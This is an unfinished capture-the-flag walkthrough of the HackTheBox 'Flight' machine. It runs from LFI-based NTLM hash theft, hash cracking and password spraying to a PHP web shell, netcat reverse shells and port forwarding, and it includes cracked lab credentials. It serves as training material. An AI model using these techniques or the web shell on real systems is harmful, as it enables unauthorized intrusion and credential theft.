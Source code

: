 <h3> Flight HackTheBox </h3>

Difficulty = Hard

Nmap Scan:
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/c012e655-7e5c-4c31-8bf3-d31ab3d068d6)

We can see the domain name *flight.htb* I added it to my */etc/hosts* file

So there are lots of port but lets start enumerating

Checking smb doesn't allow anonymous listing of shares
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/9296cc02-c57a-4eda-9c4a-b4541a8bd824)

Moving over to the web server on port 80 shows this
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/432b7a5c-8c37-426f-bb93-f8540d78ca8f)

There's nothing really there

So lets fuzz for subdomains
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/129097e3-8909-4f06-90f0-5e255ca79ee2)

I'll update my */etc/hosts* file with the new sub domain

Checking it shows this
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/73ecbdbf-a6f4-4915-bb3d-6d665b840d05)

When I clicked on the home button i get this
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/c2c901e0-2e9f-4b5b-84ed-e551893e52db)

Noticing the url we can see that it's including the file *home.html*

We can say that this is vulnerable to local file inclusion lets confirm it 
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/1c0a9997-6e39-48e1-be14-a0bfa3c115f0)

One way we can exploit this is by trying to perform ntlm hash theft 

Using responder i'll steal the ntlm hash
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/6c41a537-551f-4fe6-aaa5-c3c21bcec541)
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/a55adb5c-80f3-49a1-b3fa-854601f3a899)

While on the web server I'll do this
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/890cf68a-99be-4947-843f-862fa322773f)

Back on responder I got the hash for user *svc_apache*
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/b99248b3-00e9-4a8a-bb67-67b1977a0eed)

I brute forced it using JTR 
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/e2308968-3279-4b93-9a4b-06737a3e685c)

Now we have a cred `svc_apache:S@Ss!K@*t13`

Trying to authenticate to winrm fails 
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/fb1d2dd8-52b8-4dd4-bcfd-baec906a7ccf)

But we can login to smb using the cred
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/84057eae-b3fb-44be-9d06-8a0d697a16a2)

It shows the smb hostname as *G0* I also added that to my */etc/hosts* file

We don't really have good access over the shares but searching through the shares doesn't reveal any form of interesting cred
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/621c1544-ee11-48a7-b5de-dc8a67d859a2)

One thing we can do since we have smb cred is to get list of users on the box via *rid bruteforce* then perform a password spraying attack
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/880fe446-2b07-4ce0-96c6-2c1a546ff94c)

I saved the result in a file then used bash scripting to get only the usernames there

```
Command:
crackmapexec smb flight.htb -u 'svc_apache' -p 'S@Ss!K@*t13' --rid-brute > brute
cat brute | awk '{print $6}' | grep flight | cut -d '\' -f 2 | grep -v svc_apache > users.txt
```

Now we can use kerbrute to perform password spraying
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/7fd70294-7f1d-40b9-b985-566b6af6c2ee)

Cool we have another user's cred `S.Moon:S@Ss!K@*t13`

Trying the cred over winrm fails
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/3f04279a-329d-47f2-bcc7-582c7db18ca5)

Checking the perm the user has over smb shows this
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/0ed3fd86-c81d-4894-9784-0fec6423c2da)

Nice we have write access over the *Shared* share

But looking at the shares shows that no file is there
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/4a9603fb-74f0-4cdb-a5c7-92f2dd367962)

What we can attempt to do is to upload a file whether *scf or ini* to perform ntlm hash theft

I used this [script](https://github.com/Greenwolf/ntlm_theft) to generate the payload file
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/8a57713e-6f1c-49bf-a382-8346f2484a40)

I had responder listening already and after some seconds I got a hit
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/42013ca3-f4be-40bb-b359-ad4e83458707)

I saved the hash then brute forced it using JTR
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/ca94464f-f23c-429c-af71-aeced185015b)

We have another cred `c.bum:Tikkycoll_431012284`

Using cme i tried if it can connect to winrm but nope it can't
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/94ffe11c-cfbb-451b-bc1f-c66668f2e6dc)

Checking the perm the user has over smb gives this
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/0ca48bf4-77e5-4b2d-86f9-f7e9958669aa)

Nice we have access over the Web shares

Moving over there shows that this is where the web server files are placed
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/cb232b32-9340-4f12-9123-4d02b8529734)

I uploaded a php command execution script
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/46402f2e-bcaa-4bfa-b926-2e15e4e06761)

```php
<?php
system($_REQUEST['c']);
?>
```

We can now access it from the web server
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/4fd99908-e66d-4600-b3f3-422b388dcb10)

To get shell I uploaded nc to the smb and then got shell from it
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/2ef35092-24bd-436a-b199-ff7cee2e16e4)
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/bb20f60e-0d5b-48cb-a37a-c32b730d5bda)

Shell finally 😃

Lets see what we can do from here
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/2f8b794a-bc58-4a65-a269-008fc0a972ae)

But what I noticed that the current working directory was *C:\xampp\htdocs\flight.htb* but there's a *inetpub* directory in the *C:/* drive

So this means maybe there's an internal web app running 🤔

Checking that directory shows this
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/48468b00-b9e9-4585-9056-f48c78e392cf)

We can conclude that the only user privileged to access the *development* directory is user *C.Bum*

Though we have the user's cred but since our shell can't work well when we run *runas* i'll need a better shell

Luckily there's a tool called [RunasCs](https://github.com/antonioCoco/RunasCs) that can help with this

I uploaded it to the box then got to switch to user c.bum
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/6004085a-1293-48fd-98f3-918d862fb696)

Back to the web directory it shows the user has write access over it
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/1c3473dd-2836-45df-b4dc-092e63149b50)

So what i did was to upload a aspx shell since the web server will be IIS
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/9aad22ff-2f43-4945-ae28-86d863e98d6a)

Now lets see if there's any internal port
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/2cc26d04-6eec-4557-8f33-f1c7b58ccee1)

```
Command: netstat -ano
```

Port 8000 looks promising cause something is listening on it

And yea it's a web server
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/58ec6cb2-3e6e-45c0-b8b3-447a601c97f4)

Using chisel I port forwarded the internal port
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/a7e80222-519f-44e4-a74e-d213561fb89c)

Back on our host we can now access the internal web server
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/37e6f914-8bd4-489f-bd4e-9d5a50152e4b)

To access our shell is as easy as going over to /shell.aspx
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/aea472dc-44df-4241-9dd7-a697bb720430)

I got a reverse shell via using nc
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/12823d66-43b0-4942-b7a4-2863a59d610a)

We can see that we're user *iis apppool\defaultapppool* and it's a Microsoft Virtual Account. One thing about these accounts is that when they authenticate over the network, they do so as the machine account.

From this we can basically abuse this, by just asking the machine for a ticket for the machine account over the network.

The tool that is used is [Rubeus](https://github.com/Flangvik/SharpCollection/blob/master/NetFramework_4.7_Any/Rubeus.exe)

***** NOT YET PWNED *****
